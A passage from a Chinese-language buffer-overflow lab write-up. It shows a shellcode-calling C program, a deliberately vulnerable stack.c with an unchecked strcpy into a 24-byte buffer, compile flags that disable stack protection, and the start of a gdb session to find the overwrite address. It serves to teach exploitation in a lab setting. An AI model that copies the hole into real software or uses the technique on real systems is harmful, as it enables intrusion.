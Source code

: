 ```
        
        int main(int argc, char **argv)
        {
           char buf[sizeof(code)];
           strcpy(buf, code);
           ((void(*)( ))buf)( ); //？？？
        } 
```
编译运行

    gcc -z execstack -fno-stack-protection -o call_shellcode call_shellcode.c
    ./call_shellcode
    $

成功get shell(可以输id，whoami，ls等验证)

2） stack.c
```
        /* stack.c */
        /* This program has a buffer overflow vulnerability. */
        /* Our task is to exploit this vulnerability */
        #include <stdlib.h>
        #include <stdio.h>
        #include <string.h>
        int bof(char *str)
        {
            char buffer[24];
        
            /* The following statement has a buffer overflow problem */ 
            strcpy(buffer, str);
        
            return 1;
        }
        
        int main(int argc, char **argv)
        {
            char str[517];
            FILE *badfile;                           //创建badfile，之后将shellcode存于此文件
        
            badfile = fopen("badfile", "r");
            fread(str, sizeof(char), 517, badfile);  //shellcode赋给str
            bof(str);
        
            printf("Returned Properly\n");
            return 1;
        }
```

关闭地址随机化后，每次运行地址相同。gdb动态调试stack,利用得到的ebp和buffer地址，计算应覆盖的返回地址值，用于exploit的编写

动态调试：

    $ gcc -z execstack -fno-stack-protector -g -o stack stack.c  //要加-g 参数才能构建符号表
    $ touch badfile
    $ gdb stack
    GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
    Copyright (C) 2012 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "i686-linux-gnu".
    For bug reporting instructions, please see:
    <http://bugs.launchpad.net/gdb-linaro/>...
    Reading symbols from /home/x/Desktop/xx/stack...done.
    (gdb) b bof